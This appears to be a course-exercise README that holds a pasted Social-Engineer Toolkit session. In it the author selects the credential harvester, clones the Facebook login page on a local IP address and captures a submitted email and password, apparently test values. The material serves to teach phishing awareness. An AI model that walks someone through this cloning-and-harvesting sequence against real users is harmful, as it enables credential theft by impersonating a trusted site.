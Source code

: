 # desafio-phishig-dio
Desafio Phising Dio

                          .  ..
                       MMMMMNMNMMMM=
                   .DMM.           .MM$
                 .MM.                 MM,.
                 MN.                    MM.
               .M.                       MM
              .M   .....................  NM
              MM   .8888888888888888888.   M7
             .M    88888888888888888888.   ,M
             MM       ..888.MMMMM    .     .M.
             MM         888.MMMMMMMMMMM     M
             MM         888.MMMMMMMMMMM.    M
             MM         888.      NMMMM.   .M
              M.        888.MMMMMMMMMMM.   ZM
              NM.       888.MMMMMMMMMMM    M:
              .M+      .....              MM.
               .MM.                     .MD
                 MM .                  .MM
                  $MM                .MM.
                    ,MM?          .MMM
                       ,MMMMMMMMMMM
                https://www.trustedsec.com

[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 8.0.3
                    Codename: 'Maverick'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) Third Party Modules

  99) Return back to the main menu.

set> 2

The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.

The Java Applet Attack method will spoof a Java Certificate and deliver a Metasploit-based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.

The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.

The Credential Harvester method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.

The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.

The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if it's too slow/fast.

The Multi-Attack method will add a combination of attacks through the web attack menu. For example, you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.

The HTA Attack method will allow you to clone a site and perform PowerShell injection through HTA files which can be used for Windows-based PowerShell exploitation through the browser.

   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method

  99) Return to Main Menu

set:webattack>3

 The first method will allow SET to import a list of pre-defined web
 applications that it can utilize within the attack.

 The second method will completely clone a website of your choosing
 and allow you to utilize the attack vectors within the completely
 same web application you were attempting to clone.

 The third method allows you to import your own website, note that you
 should only have an index.html when using the import website
 functionality.
   
   1) Web Templates
   2) Site Cloner
   3) Custom Import

  99) Return to Webattack Menu

set:webattack>2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as place them into a report

-------------------------------------------------------------------------------
--- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

The way that this works is by cloning a site and looking for form fields to
rewrite. If the POST fields are not usual methods for posting forms this 
could fail. If it does, you can always save the HTML, rewrite the forms to
be standard forms and use the "IMPORT" feature. Additionally, really 
important:

If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
IP address below, not your NAT address. Additionally, if you don't know
basic networking concepts, and you have a private IP address, you will
need to do port forwarding to your NAT IP address from your external IP
address. A browser doesn’t know how to communicate with a private IP
address, so if you don't specify an external IP address if you are using
this from an external perspective, it will not work. This isn't a SET issue
this is how networking works.

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.13]:         
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: https://www.facebook.com 

[*] Cloning the website: https://login.facebook.com/login.php                                                                                                                                                                               
[*] This could take a little bit...                                                                                                                                                                                                         

The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                                    
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80                                                                                                                                                                                              
[*] Information will be displayed to you as it arrives below:                                                                                                                                                                               
192.168.1.16 - - [13/Nov/2024 20:29:55] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
PARAM: jazoest=2990                                                                                                                                                                                                                         
PARAM: lsd=AVriz5yaPRA                                                                                                                                                                                                                      
PARAM: display=                                                                                                                                                                                                                             
PARAM: isprivate=                                                                                                                                                                                                                           
PARAM: return_session=                                                                                                                                                                                                                      
POSSIBLE USERNAME FIELD FOUND: skip_api_login=                                                           
PARAM: signed_next=                                                                                      
PARAM: trynum=1                                                                                          
PARAM: timezone=                                                                                         
PARAM: lgndim=                                                                                           
PARAM: lgnrnd=152924_UjpO                                                                                
PARAM: lgnjs=n                                                                                           
POSSIBLE USERNAME FIELD FOUND: email=pedro45@gmai.com                                                    
POSSIBLE PASSWORD FIELD FOUND: pass=josecarrinho                                                         
POSSIBLE USERNAME FIELD FOUND: login=1                                                                   
PARAM: prefill_contact_point=                                                                            
PARAM: prefill_source=                                                                                   
PARAM: prefill_type=                                                                                     
PARAM: first_prefill_source=                                                                             
PARAM: first_prefill_type=                                                                               
PARAM: had_cp_prefilled=false                                                                            
POSSIBLE PASSWORD FIELD FOUND: had_password_prefilled=false                                              
PARAM: ab_test_data=                                                                                     
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.                                            
                                                                                                         
                                                                                                         
192.168.1.16 - - [13/Nov/2024 20:30:11] "GET /favicon.ico HTTP/1.1" 404 -
